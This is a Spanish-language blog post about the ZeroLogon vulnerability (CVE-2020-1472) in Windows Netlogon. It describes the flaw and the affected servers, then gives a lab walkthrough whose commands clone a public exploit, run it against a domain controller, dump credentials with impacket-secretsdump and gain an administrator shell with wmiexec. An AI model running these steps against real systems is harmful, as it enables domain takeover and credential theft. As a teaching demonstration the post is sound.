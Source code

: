 ```yaml
---
layout: single
title: Explotación de CVE-2020-1472 - Vulnerabilidades
excerpt: "la vulnerabilidad crítica de elevación de privilegios 10/10 de Windows ZeroLogon Netlogon permite a los actores de amenazas obtener rápidamente acceso a las credenciales de administrador de dominio en un controlador de dominio. A partir de ahí, pueden recopilar datos confidenciales o implementar malware, como ransomware."
date: 2023-08-25
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2020-1472/cve-2020-1472.png
  teaser_home_page: true
  icon: /assets/images/zerologon.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2020-1472
  - zerologon
  - rce
  - censys
  
---
```


![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-1472.png)

## Descripción:

En resumen, la CVE-2020-1472 es el resultado de un error en la estrategia de autentificación criptográfica del protocolo remoto de Netlogon. Este protocolo autentifica a los usuarios y los equipos en redes basadas en dominios y también se utiliza para actualizar las contraseñas del ordenador en remoto. Mediante la vulnerabilidad, un atacante puede hacerse pasar por un ordenador cliente y sustituir la contraseña de un controlador de dominio (un servidor que controla una red al completo y ejecuta los servicios del Directorio Activo), que le permite al atacante hacerse con los derechos de administrador del dominio.

•	Tipo: Gestión de privilegios incorrecta

•	Gravedad: Alta

•	Fecha publicación:17/08/2020 Última modificación: 23/11/2020

## ¿Qué es Netlogon?

Netlogon es un proceso de Windows Server que autentica a los usuarios y otros servicios dentro de un dominio. Dado que es un servicio y no una aplicación, Netlogon se ejecuta continuamente en segundo plano, a menos que se detenga manualmente o por un error en tiempo de ejecución. Netlogon se puede detener o reiniciar desde el terminal de línea de comandos.

## ¿Quién es vulnerable?

El CVE-2020-1472 supone un riesgo para las empresas cuyas redes están basadas en controladores de dominio que se ejecuten con Windows. En concreto, los ciberdelincuentes pueden secuestrar un controlador de dominio basado en cualquier versión de Windows Server 2019 o de Windows Server 2016, así como cualquier edición de Windows Server versión 1909, Windows Server versión 1903, Windows Server versión 1809 (ediciones Datacenter y Standard), Windows Server 2012 R2, Windows Server 2012 o Windows Server 2008 R2 Service Pack 1. Para atacar, primero necesitarían penetrar en la red corporativa.

## Productos Afectados:

•	Windows Server 2008 R2 x64 Service Pack 1 

•	Windows Server 2012

•	Windows Server 2012 R2 

•	Windows Server 2016

•	Windows Server 2019

•	Windows Server 1903 (Server Core), 1909 (Server Core), 2004 (Server Core)

•	Samba 4.0 o superior, sólo cuando es usado como Controlador de Dominio Active Directory o NT4 

## Explotación:

Para esta demostración usaremos como maquina atacante Kali Linux conectado a la red y el equipo víctima es un Windows server 2008 R2.

•	Ejecutamos en la terminal el comando python3 -m pip install virtualenv

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14722.png)

Luego creamos una instancia con el comando.

•	python3 -m virtualenv practica1

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14723.png)

Invocamos la instancia creada source practica1/bin/actívate.

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14724.png)

Instalamos el paquete desde github con el comando.

•	pip install git+https://github.com/SecureAuthCorp/impacket

Luego descargamos el directorio con el exploit desde github.

•	git clone https://github.com/dirkjanm/CVE-2020-1472

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14725.png)

Ingresamos al directorio descargado.

•	cd CVE-2020-1472

Ejecutamos desde el directorio el comando.

•	python cve-2020-1472-exploit.py NOMBRE EQUIPO VICTIMA IP VICTIMA

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14726.png)

Ejecutamos el comando del paquete.

•	impacket-secretsdump NOMBRE DOMINIO VICTIMA/'NOMBRE EQUIPO VICTIMA$'@IP VICTIMA -no—pass

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14727.png)

Finalmente ejecutamos el siguiente comando para obtener control del controlador de dominio como administrador.

•	impacket-wmiexec -hashes HASH ENCONTRADO USUARIO ENCONTRADO@IP VICTIMA

![](/assets/images/vulnerabilidades/cve-2020-1472/cve-2020-14728.png)


## Referencias:

•	https://github.com/SecureAuthCorp/impacket

•	https://github.com/dirkjanm/CVE-2020-1472

•	https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1472


